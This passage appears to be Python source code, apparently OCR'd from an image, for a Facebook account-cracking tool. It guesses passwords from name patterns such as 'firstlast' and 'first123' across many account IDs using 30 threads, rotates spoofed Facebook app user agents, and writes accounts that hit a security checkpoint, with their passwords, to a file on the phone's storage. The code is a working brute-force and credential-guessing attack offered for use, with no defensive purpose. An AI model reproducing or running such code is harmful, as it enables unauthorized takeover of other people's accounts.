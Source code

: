             elif 'checkpoint' in response.text:
                if cpok=='n':
                     pass
                else:
                     print('\r\033[1;91m[\033[1;91mRA-CP\033[1;91m] \033[1;91m'+acc+' \033[1;91m•\033[1;91m '+pword)
                cpacc.append(acc)
                open('/sdcard/RA-CP.txt','a').write(f'{acc} • {pword}\n')
                break
            else:
                continue
        loop += 1    
      except Exception as e: time.sleep(10)

    if   m=='2':
        with speed(max_workers=30) as speede:
            speede.map(start2, accounts)
    elif m=='1':
       with speed(max_workers=30) as speede:
            speede.map(start, accounts)
    else:
       with speed(max_workers=30) as speede:
            speede.map(start, accounts)
    exit()


        #USERAGENTS_RANDOM
'''
Mozilla/5.0 (Linux; Android 6.0.1; SM-G900F Build/MMB29M; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/104.0.5112.97 Mobile Safari/537.36[FBAN/EMA;FBLC/hr_HR;FBAV/319.0.0.7.107;
Mozilla/5.0 (Linux; Android 5.1.1; 9022X Build/LMY47V; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/95.0.4638.74 Safari/537.36 [FB_IAB/FB4A;FBAV/326.0.0.34.120;
Mozilla/5.0 (Linux; Android 11; 5033XR Build/RP1A.200720.011; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/111.0.5563.115 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/407.0.0.30.97;]
Mozilla/5.0 (Linux; Android 10; A140 Build/QP1A.190711.020; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/111.0.5563.58 Safari/537.36 [FB_IAB/FB4A;FBAV/407.0.0.30.97;]
Mozilla/5.0 (Linux; Android 10; BV6600 Build/QP1A.190711.020; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/111.0.5563.116 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/407.0.0.30.97;]
Mozilla/5.0 (Linux; Android 10; itel A571W Build/QP1A.190711.020; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/103.0.5060.70 Mobile Safari/537.36[FBAN/EMA;FBLC/ar_AR;FBAV/333.0.0.12.108;]
Mozilla/5.0 (Linux; Android 11; ZTE Blade L9 Build/RP1A.201005.001; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/111.0.5563.116 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/407.0.0.30.97;]
'''
####@-----Random-----@####
def andom():
    okacc = []
    cpacc = []
    totalpass = []
    os.system("clear")
    print(logo)
    if 'o': 
        tpp = input(f'[+] Total Password? : ')
        totalpass.append('first')
        totalpass.append('last')
        if tpp.isnumeric():
            ex = 'firstlast first123 last123'
            print(f'[+] {ex} (ETC)')
            for x in range(int(tpp)):
                totalpass.append(input(f'[1] Password : '))
            pass
        else:
            print(f"[+] Numeric Only")
            exit()
    print(f'\n'+("[1]")+' Method 1 \n'+("[2]")+' Method 2 ')
    m=input(f"[+] Input : ") 